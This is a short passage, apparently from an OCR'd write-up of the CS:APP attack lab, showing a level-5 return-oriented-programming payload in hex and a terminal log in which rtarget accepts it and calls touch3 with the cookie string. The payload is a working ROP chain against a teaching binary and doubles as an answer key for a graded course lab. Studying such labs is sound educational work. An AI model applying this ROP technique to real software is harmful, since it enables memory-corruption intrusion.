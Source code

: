 ```
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```

攻击成功

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level5.txt>level5
lyjy@Lenovo:~/CSAPP/attacklab$ ./rtarget -q -i level5
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
```



































